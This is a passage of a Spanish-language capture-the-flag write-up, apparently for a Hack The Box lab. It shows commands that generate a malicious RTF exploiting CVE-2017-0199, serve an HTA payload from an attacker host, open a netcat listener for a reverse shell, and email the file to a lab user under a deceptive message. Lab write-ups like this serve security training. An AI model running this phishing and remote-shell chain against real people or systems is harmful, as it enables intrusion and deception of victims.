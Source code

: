 {% code overflow="wrap" %}
```bash
python2.7 cve-2017-0199_toolkit.py -M gen -w pawned.rtf -u http://10.10.16.5/pawned.hta -t rtf -x 0
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3348_vmware_PIUokLjiWY.png" alt=""><figcaption></figcaption></figure>

El siguiente paso será levantar un servidor web con Python donde tenemos alojado el archivo _**HTA**_, también nos pondremos en escucha por el puerto especificado en el payload HTA de la Reverse Shell, y también enviaremos un correo a (nico@megabank.com) pasándole el archivo RTF malicioso.

Verificamos que finalmente el archivo se ha enviado correctamente, y al parecer el usuario (nico@megabank.com) lo ha abierto y hemos recibido una Reverse Shell.

{% code overflow="wrap" %}
```bash
python3 -m http.server 80

rlwrap -cAr nc -nlvp 443

sendEmail -f gzzcoo@htb.local -t nico@megabank.com -u "IMPORTANT" -m "I'll send you the report you asked for, thanks." -a pawned.rtf -s 10.10.10.77 -v
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3350_vmware_reqJjbWC5R.png" alt=""><figcaption></figcaption></figure>

Verificaremos que encontramos la flag de **user.txt.**

<figure><img src="../../../../../.gitbook/assets/3351_vmware_GmIl8UhAYC.png" alt=""><figcaption></figcaption></figure>
